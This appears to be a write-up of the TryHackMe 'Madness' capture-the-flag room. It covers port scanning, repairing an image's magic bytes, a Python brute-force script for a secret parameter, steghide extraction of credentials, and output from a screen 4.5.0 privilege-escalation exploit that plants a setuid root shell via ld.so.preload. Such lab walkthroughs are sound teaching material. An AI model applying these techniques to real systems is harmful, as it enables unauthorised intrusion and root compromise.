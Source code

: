 # Madness CTF TryHackMe
## This was easily the trickiest but most enjoyable room I have done yet

##1. Scanning & Enumeration
We do the below scans in parallel.

### 1.1. Port Scanning: 

```
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nothing extraordinary.
```

### 1.2. Web Exploration
```html
<div class="main_page">
      <div class="page_header floating_element">
        <img src="thm.jpg" class="floating_element"/>
<!-- They will never find me-->
```
In the homepage, which is a default ubuntu page, we see the thm.jpg image, that does not render out properly. We see it in the source code.

### 1.3. Steganography
Exploring the image using strings, binwalk and steghide does not return anything.

At this point, one thing CTF challenges often have is the change in the magic number of the file.

These magic numbers are used by the system to recognise which file it is. Using xxd --plain thm.jpg > wow.txt we see the first line: ```89504e470d0a1a0a000000010100000100010000ffdb0043000302020302```

I looked up the actual values for jpg files. We thus change the first line to: ```ffd8ffe000104a46494600010100000100010000ffdb0043000302020302```

We see the hidden directory mentioned in the image!

PS: It is also a good idea to download the image … just in case, you know?

### 1.4. Hidden Directory Exploration
The hidden directory screenshot, asking for a secret number

Info gathered:

We have to enter a secret
Source code mentions something about the type of input and the size of input.
The question is thus: How do we input?
1.5. Finding the Secret
Trying the below gives us an expected response. Note how the parameter is accepted.
```
┌──(kali㉿kali)-[/tmp]
└─$ curl 10.10.0.237/{hidden_directory_name}/?secret=1
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 1</p>

<p>That is wrong! Get outta here!</p>

</div>
</body>
</html>
```
We also see the hint printed out here. Time for some scripting!

I wrote the below code, which you can use to brute-forcing the value of the secret parameter.
```
┌──(kali㉿kali)-[/tmp]
└─$ cat script.py
import requests

url = "http://MACHINE_IP_HERE/{hidden_directory_name}/?secret="

for i in range(100):
    curr_url = url+str(i)
    response = requests.get(curr_url)
    if response.text.find("wrong") == -1:
        print(i)
        break
    print(f"Checking {i} rn")
    
```
And we get the secret number, which gets us a key!

But, to what?

### 1.6. Steganography
Remember the image we fixed earlier? Well, this is where the key is being used.
```
┌──(kali㉿kali)-[/tmp]
└─$ steghide --extract --stegofile download.jpeg 
Enter passphrase: 
wrote extracted data to "hidden.txt".
```

```
┌──(kali㉿kali)-[/tmp]
└─$ cat hidden.txt 
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
Ey, Voila! Using rot13 gives us the username.
```
But … PASSWORD????????

## 2. Foothold (finally): Big Brain Time
At this point, we have no active paths we could explore. Bruteforcing SSH is not a good idea. What to do?

This is very sneaky. Saw the image on the room? Download it.
```
┌──(kali㉿kali)-[/tmp]
└─$ steghide --extract --stegofile f***.jpg      
Enter passphrase: 
wrote extracted data to "password.txt".
```

```
┌──(kali㉿kali)-[/tmp]
└─$ cat password.txt 
I didn't think you'd find me! Congratulations!

Here take my password

{hidden}
```
AH YES! Finally!

## 3. PrivEsc
We epxlore the common paths to priv esc.
```
joker@ubuntu:~$ sudo -l
[sudo] password for joker: 
Sorry, user joker may not run sudo on ubuntu.
```
^not useful.
```
joker@ubuntu:~$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
```

^finding set uid bit

Does something seem off to you? I googled it, and found the exploit.

Copy-pasting the script and executing -
```
joker@ubuntu:~$ vim wow.sh
joker@ubuntu:~$ bash wow.sh 
wow.sh: line 1: creenroot.sh: command not found
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.
```
```
# whoami
root
```
